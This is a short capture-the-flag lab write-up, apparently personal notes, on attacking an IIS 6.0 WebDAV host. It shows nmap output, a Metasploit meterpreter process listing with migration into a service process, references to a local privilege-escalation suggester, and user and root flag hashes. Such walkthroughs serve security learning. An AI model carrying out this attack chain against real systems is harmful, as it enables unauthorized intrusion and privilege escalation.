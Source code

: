 #msfconsole 
### Reconnaissance
```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sV -sC --open -p- 10.10.10.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-07 15:32 EDT
Nmap scan report for 10.10.10.14
Host is up (0.12s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Sat, 07 Sep 2024 19:35:30 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.97 seconds
```
### Enumeration
- Same IIS as granny 
- msf scstoragepath from url instead of asp upload
- ![[Screenshot 2024-09-07 at 3.44.15 PM.png]]
- migration to 32 bit
```
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 148   1072  cidaemon.exe
 272   4     smss.exe
 320   272   csrss.exe
 344   272   winlogon.exe
 392   344   services.exe
 404   344   lsass.exe
 580   392   svchost.exe
 668   392   svchost.exe
 732   392   svchost.exe
 772   392   svchost.exe
 788   392   svchost.exe
 924   392   spoolsv.exe
 952   392   msdtc.exe
 1072  392   cisvc.exe
 1112  392   svchost.exe
 1168  392   inetinfo.exe
 1204  392   svchost.exe
 1316  392   VGAuthService.exe
 1392  392   vmtoolsd.exe
 1504  392   svchost.exe
 1600  392   svchost.exe
 1768  344   logon.scr
 1804  392   dllhost.exe
 1896  392   alg.exe
 1904  580   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 2404  580   wmiprvse.exe
 2572  3408  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 2768  788   HelpSvc.exe
 3408  1504  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3480  580   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4028  1072  cidaemon.exe
 4072  1072  cidaemon.exe

meterpreter > migrate 3480
[*] Migrating from 2572 to 3480...
[*] Migration completed successfully.

```
sysinfo![[Screenshot 2024-09-07 at 3.46.28 PM.png]]
local exploit suggester
- ![[Screenshot 2024-09-07 at 3.51.10 PM.png]]
- param and privesc![[Screenshot 2024-09-07 at 3.53.07 PM.png]]

user: bdff5ec67c3cff017f2bedc146a5d869

root: 9359e905a2c35f861f6a57cecf28bb7b

### Exploit
### User
### Flag